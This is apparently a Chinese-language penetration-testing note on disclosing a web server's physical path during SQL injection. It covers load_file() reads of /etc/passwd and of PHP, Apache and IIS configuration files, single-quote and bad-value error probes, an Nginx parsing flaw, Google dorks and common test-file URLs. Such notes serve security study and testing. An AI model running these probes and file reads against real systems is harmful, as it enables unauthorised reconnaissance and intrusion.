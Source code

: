 `phpinfo()`页面：最理想的情况，直接显示 web 路径

利用`select load_file()`读取文件找到`web`路径：

可以尝试`/etc/passwd`，`apache|nginx|httpd log`之类的文件。

配置文件爆路径：如果注入点有文件读取权限，可通过 load_file 尝试读取配置文件

```
# Windows
 c:\windows\php.ini                             # php配置文件
 c:\windows\system32\inetsrv\MetaBase.xml       # IIS虚拟主机配置文件
  # Linux
 /etc/php.ini                                   # php配置文件
 /etc/httpd/conf.d/php.conf
 /etc/httpd/conf/httpd.conf                     # Apache配置文件
 /usr/local/apache/conf/httpd.conf
 /usr/local/apache2/conf/httpd.conf
 /usr/local/apache/conf/extra/httpd-vhosts.conf # 虚拟目录配置文件
```

单引号爆路径：直接在 URL 后面加单引号。要求单引号没有被过滤(`gpc=off`)且服务器默认返回错误信息。

```
www.abc.com/index.php?id=1'
```

错误参数值爆路径：尝试将要提交的参数值改成错误值。

```
www.abc.com/index.php?id=-1
```

`Nginx`文件类型错误解析爆路径：要求`Web`服务器是`Nginx`，且存在文件类型解析漏洞。

在图片地址后添加`/x.php`，该图片不但会被当作`php`文件执行，还有可能爆出物理路径。

```
www.abc.com/bg.jpg/x.php
```

`Google`爆路径:

```
site:xxx.com warning
site:xxx.com “fatal error”
```

测试文件爆路径:

```
www.xxx.com/test.php
www.xxx.com/ceshi.php
www.xxx.com/info.php
www.xxx.com/phpinfo.php
www.xxx.com/php_info.php
www.xxx.com/1.php
```

其它
